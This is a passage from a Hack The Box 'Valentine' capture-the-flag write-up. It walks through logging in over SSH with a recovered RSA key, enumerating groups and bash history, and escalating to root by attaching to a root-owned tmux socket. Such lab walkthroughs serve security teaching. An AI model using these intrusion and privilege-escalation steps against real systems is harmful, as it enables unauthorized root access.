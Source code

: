   ### SSH
  Using the passphrase we just found, I should be able to SSH into the system with the RSA key we got earlier. First I modified the permissions on the key file I made based on the output earlier.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Valentine]
└─$ chmod 400 id_rsa
~~~
And now I should be able to SSH.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Valentine]
└─$ ssh -i id_rsa hype@10.129.1.190
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ whoami
hype
~~~
Excellent, I can go ahead and easily capture the user.txt flag in /home/hype/desktop. Time to do some file browsing for further enumeration as the user this type.  
### File Browsing
I browsed the directories for anything interesting and checked which groups this user belongs to.  
~~~Bash
hype@Valentine:~$ groups
hype cdrom dip plugdev sambashare
~~~
I ran the command **find / -type f -group "group name" 2>/dev/null** for every group to look for anything that might prove useful or for any special permission/file. Afterwards, I took a look at hype's .bash_history.  
~~~Bash
hype@Valentine:~$ cat .bash_history


cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
ls
su
id
~~~
tmux? I can check if there are any active sessions running with **ps aux**.  
## PrivEsc
### Process Check
After running ps aux, I found that a tmux session was running as the root user.  
~~~Bash
root       1211  0.0  0.1  26416  1676 ?        Ss   07:37   0:02 /usr/bin/tmux -S /.devs/dev_sess
~~~
And after confirming that hype has access to the /.devs directory, I should be able to connect to the tmux session.  
~~~Bash
tmux -S /.devs/dev_sess
~~~